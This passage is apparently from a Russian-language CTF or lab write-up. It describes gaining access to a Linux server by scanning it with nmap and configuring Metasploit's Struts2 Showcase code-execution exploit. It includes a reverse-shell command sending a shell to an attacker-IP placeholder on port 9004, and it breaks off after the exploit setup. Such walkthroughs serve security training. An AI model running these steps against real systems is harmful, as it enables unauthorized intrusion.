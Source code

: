 3. Получил секрет из колонки `Comment` карточки пользователя `LDAP`.

### Кейс Linux

**Задача**

* Получить доступ к серверу `Linux`

* Получить определенный секрет (флаг) из коневой директории пользователя `root`

**Задействованные инструменты**

* Nmap + nmap-скрипты

* Metasploit Framework

* LinPEAS

* GTFOBins

**Шаги выполнения**

1. Произвел сканирование портов сервера `Linux` утилитой `nmap`, задействовав стандартные скрипты:

    ```
    ~$ nmap -sS <ip> -p-

    ~$ nmap -sCV <ip> -p-
    ```

    В результате было обнаружено, что порт `80` содержит веб-сервер `Apache Tomcat/Coyote JSP engine 1.1` с сервисом `Struts2 Showcase`. Известно, что данный сервис может быть подвержен уязвимостям, связаными с ошибками в обработке пользовательского ввода и парсингом языковых конструкций.

2. Произвел поиск доступных эксплойтов в `Metasploit Framework`:

    ```
    ~$ msfconsole -q

    msf6> search struts2 showcase
    ```

    Был найден эксплоит `exploit/multi/http/struts2_code_exec_showcase`.

    Изучив эксплоит, стало ясно, что призводится атака на `action`-сервис `saveGangster`

3. Изучил веб-интерфейс `Struts2 Showcase`, нашел `saveGangster.action` на URL `http://<target ip>/integration/saveGangster.action`

4. Произвел подготовку эксплойта `exploit/multi/http/struts2_code_exec_showcase` для получения реверс шелла с сервером:

    ```
    msf6 exploit(multi/http/struts2_code_exec_showcase) > set RHOST <target ip>

    msf6 exploit(multi/http/struts2_code_exec_showcase) > set TARGETURI /integration/saveGangster.action

    msf6 exploit(multi/http/struts2_code_exec_showcase) > set PAYLOAD cmd/unix/generic

    msf6 exploit(multi/http/struts2_code_exec_showcase) > set CMD 'sh -i >& /dev/tcp/<attacker ip>/9004 0>&1'
    ```
